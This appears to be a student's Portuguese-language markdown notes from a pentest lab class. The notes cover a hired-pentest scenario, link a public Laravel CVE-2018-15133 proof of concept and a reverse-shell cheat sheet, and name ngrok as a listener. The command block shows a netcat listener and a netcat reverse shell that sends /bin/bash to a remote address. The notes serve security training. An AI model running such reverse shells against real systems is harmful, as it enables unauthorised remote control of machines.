 # Exploração
os testes da semana seram feitos no lab fornecido pela CrowSec Segurança Ofensiva.

- Cenário:
    > A empresa chamada CS Hosting nos contratou para que nós realizassemos um pentest (achar, explorar e identificar as vulnerabilidades) dentro de sua estrutura.

- Repos:
    > CVE-2018-15133 (PoC) - https://github.com/aljavier/exploit_laravel_cve-2018-15133

---

## Comandos
```bash
# Criando uma conexão usando o netcat
$ nc -lnvp 8443 # -l indica que que a conexão irá escutar uma porta; -n para não resolver DNS reversos quando houver uma tentativa de conexão; -v indica que terá um output verbose das interações; -p especifica a porta sendo nesse caso a 8443 (a porta tem que ser maior que 1024 por não não ser posível fazer bind de portas abaixo disso sem ser como admin)

# Acessando uma porta de um endereço (ip/dns) usando o netcat
$ nc <endereço desejado> <porta que foi feito o bind> -e /bin/bash # -e especifica que será enviado um programa via tcp para o endereço desejado; 

```

> Notas da aula

- Pentest Monkey (Reverse Shell Payload) - http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- Ngrok (Reverse Shell Listener) - https://ngrok.com/